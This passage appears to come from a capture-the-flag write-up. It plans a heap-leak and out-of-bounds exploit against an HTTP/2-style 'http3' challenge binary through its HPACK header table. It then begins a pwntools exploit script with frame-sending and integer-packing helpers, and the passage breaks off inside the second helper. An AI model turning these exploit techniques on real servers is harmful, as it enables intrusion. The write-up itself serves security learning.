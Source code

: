 And we can see that before there is not verifications of the `n` variable so we found our second vulns, now we just have to add all of this together and write an exploit that will:
- leak the heap address and the flag address
- write a fake header into the heap using the type 3 which allow us to add new custom headers into the header table
- find the correct offset and use the oob to fetch our fake header which point to our flag twice so we trigger the error and get the flag

And here it is:
```py
from pwn import p32, flat, u64, p64
from hpack import Encoder

CHALL = "./http3"
LIBC = "./libc-2.39.so"


class Frame():
    def __init__(self, io, frame_type, flags, id, data, size=0):
        if size == 0:
            self.size = len(data)
        else:
            self.size = size
        self.frame_type = frame_type
        self.flags = flags
        self.id = id
        self.data = data
        self.io = io

    @property
    def header(self):
        data = [
            self.size >> 16, self.size >> 8, self.size >> 0,
            self.frame_type,
            self.flags,
            self.id >> 24, self.id >> 16, self.id >> 8, self.id >> 0
        ]
        data = [p32(i, endianness="big")[-1] for i in data]

        header = b"".join([int.to_bytes(i) for i in data])
        return header

    def __recv_header(self):
        header = self.io.recv(9, timeout=0.1)
        len = int.from_bytes(header[:3])

        if len <= 0:
            return header

        return self.io.recv(len)

    def send(self, recv=True):
        self.io.send(self.header)
        self.io.send(self.data)
        if recv:
            self.__recv_header()
            return self.__recv_header()


# This function was stolen from skuuk exploit
def pack_int(n, prefix):
    N = 8 - len(prefix)
    if n < (1 << N) - 1:
        return bytes([int(prefix+f"{n:b}".rjust(N, "0"), 2)])
```